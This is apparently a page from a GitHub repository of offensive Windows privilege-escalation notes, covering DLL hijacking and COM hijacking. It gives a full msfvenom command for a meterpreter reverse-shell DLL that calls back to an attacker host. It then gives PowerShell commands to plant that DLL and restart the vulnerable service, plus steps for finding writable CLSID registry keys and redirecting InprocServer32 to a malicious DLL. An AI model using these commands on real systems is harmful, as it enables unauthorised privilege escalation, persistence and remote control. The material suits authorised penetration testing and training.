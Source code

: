 #### Step 1: Create a Malicious DLL
To exploit DLL hijacking, first create a malicious DLL payload. You can use `msfvenom` to generate a DLL payload that will execute a reverse shell or similar malicious code:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f dll -o malicious.dll
```

#### Step 2: Place the Malicious DLL in the Target Directory
Once the DLL is generated, place it in the directory where the vulnerable service or application will load it. Ensure the directory has appropriate permissions for the DLL to be executed:
```powershell
Copy-Item -Path "C:\Path\To\malicious.dll" -Destination "C:\Vulnerable\Directory\malicious.dll"
```

#### Step 3: Restart the Service or Program
After placing the malicious DLL in the appropriate directory, restart the vulnerable service or application to trigger the loading of your malicious DLL:
```powershell
Restart-Service -Name "<service_name>"
```
Or restart the target program manually, depending on the context of the hijacking.

# Component Object Model (COM) Hijacking

Privilege escalation using COM hijacking can be achieved by identifying a vulnerable COM object that runs with elevated privileges (like SYSTEM or Administrator) and modifying its registry entry to load a malicious DLL or executable. When a lower-privileged user triggers the COM object, the system will execute the payload with higher privileges.

#### View Registered COM Objects
To enumerate COM objects currently registered on the system:

```powershell
Get-ItemProperty -Path 'HKLM:\Software\Classes\CLSID\'
```

#### Check Permissions
Ensure that the identified COM object has misconfigured permissions that allow lower-privileged users (like your current user) to modify its registry keys. You can check permissions using:

```powershell
$acl = Get-Acl -Path 'HKLM:\Software\Classes\CLSID\{<GUID>}\InprocServer32'
$acl.Access
```

#### Hijack an Existing COM Object for Persistence
Once you've found a vulnerable COM object that is invoked by a privileged process and is modifiable, hijack it by pointing it to a malicious payload.

Example: replace the `InprocServer32` path of a vulnerable COM object to load a malicious DLL, which will execute with elevated privileges.

